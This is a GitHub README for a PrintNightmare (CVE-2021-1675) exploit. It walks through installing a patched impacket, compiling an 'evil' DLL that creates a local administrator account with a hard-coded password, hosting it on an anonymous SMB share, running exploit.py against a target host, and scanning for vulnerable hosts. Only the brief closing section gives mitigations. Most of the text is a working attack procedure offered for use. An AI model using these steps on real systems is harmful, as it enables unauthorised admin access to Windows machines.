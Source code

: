 # CVE-2021-1675

Stolen from: https://github.com/cube0x0/CVE-2021-1675

### Install

```
pip3 uninstall impacket
git clone --branch PrintNightmare https://github.com/LuemmelSec/impacket
cd impacket
python3 -m pip install .
apt install mingw-w64
```

### Build DLL (64 bit)
I used this version: https://github.com/newsoft/adduser  

You can use the evil32.dll or evil64.dll under ./DLL
Username: PWND  
Password: B@dPass123!

Or build your own:  
```
cd DLL  
cp Tchar.h /usr/x86_64-w64-mingw32/include/
cp Lmaccess.h /usr/x86_64-w64-mingw32/include/
cp Tchar.h /usr/i686-w64-mingw32/include
cp Lmaccess.h /usr/i686-w64-mingw32/include/
```

Edit the evil.dll to your needs:  
- change username & password  
- change name of the local admin group -> language dependant  

Build the DLL  64 bit:  
```
x86_64-w64-mingw32-gcc -shared -oevil64.dll evil.c -lnetapi32
cp evil64.dll /tmp/
```

Build the DLL 32 bit:  
```
i686-w64-mingw32-gcc -shared -oevil32.dll evil.c -lnetapi32
cp evil32.dll /tmp/
```

### SMB configuration

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf   ` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

Start SMB Service
```
service smbd start
```

### exploit.py

```
python3 exploit.py mcafeelab.local/lowpriv@10.55.0.1 '\\10.55.0.30\smb\evil64.dll'
```


### Scanning

We can use `rpcdump.py` from impacket to scan for vulnerable hosts, if it returns a value, it's vulnerable 

```
rpcdump.py @192.168.1.10 | grep MS-RPRN

Protocol: [MS-RPRN]: Print System Remote Protocol
```

### Mitigation

https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c  

Disable Spooler service

```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

Or Uninstall Print-Services

```powershell
Uninstall-WindowsFeature Print-Services
```
